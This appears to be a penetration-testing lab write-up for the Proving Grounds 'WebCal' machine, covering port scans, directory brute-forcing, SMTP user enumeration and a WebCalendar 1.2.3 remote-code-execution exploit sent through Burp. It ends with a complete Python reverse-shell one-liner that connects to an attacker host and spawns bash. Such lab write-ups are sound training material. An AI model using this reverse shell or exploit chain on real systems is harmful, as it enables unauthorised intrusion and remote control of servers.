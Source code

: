 ##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.191.37 -T4 -oN WebCal.nmap
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20213757.png)

##### FTP

```
ftp -p 192.168.191.37 21 
```

Not allow anonymous login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20233404.png)

##### HTTP

Try to find exploits in the HTTP service first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010855.png)

Click the NOTIFY ME button at the bottom right of the webpage. It leads to the send.php page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20012840.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20013044.png)

Scan directories.

```
feroxbuster -u http://192.168.191.37 -w /usr/share/wordlists/directory-list-2.3-medium.txt
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010345.png)

Analyze send.php in Burp Suite but I don’t know what it means, so I continue to look for other possibilities.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_14h42m26s_002_.png)

##### SMTP

Enumerate user names, nothing special.

```
smtp-user-enum -M RCPT -U /usr/share/wordlists/names.txt -t 192.168.191.37 -m 10 -f user@example.com
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20092925.png)

Go back and scan directories with different dir list. Find the webcalendar.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_21h00m22s_006_.png)

Guess the login admin///admin (find in doc) but failed. (hydra with rockyou.txt failed :dizzy_face: )

```
http://<IP>/webcalendar/docs/WebCalendar-SysAdmin.html
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_22h38m37s_009_.png)

Look for available vulnerabilities and find a [WebCalendar RCE](https://www.exploit-db.com/exploits/18775), because the server is running version 1.2.3, so it might work.

After read the description. I plan to use Burp Suite to send the exploit request. Note that the code is written for use in php. The escape character backslash in the string must be removed. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h36m16s_008_.png)

I use the Repeater function to make it easier to test. First send exploit payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h02m07s_002_.png)

Second, use a simple command to test whether the exploit is successful. Convert "ls" command string into base64 format "bHM=". 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h37m37s_009_.png)

If you get response code 408 try to set the body encoding.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h18m42s_005_.png)

Now we can confirm that the exploit works and then try to send the reverse shell command. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h15m13s_004_.png)

I use the python command below to successfully get the connection. Convert the code to base64 format before sending.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.191",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h06m39s_003_.png)
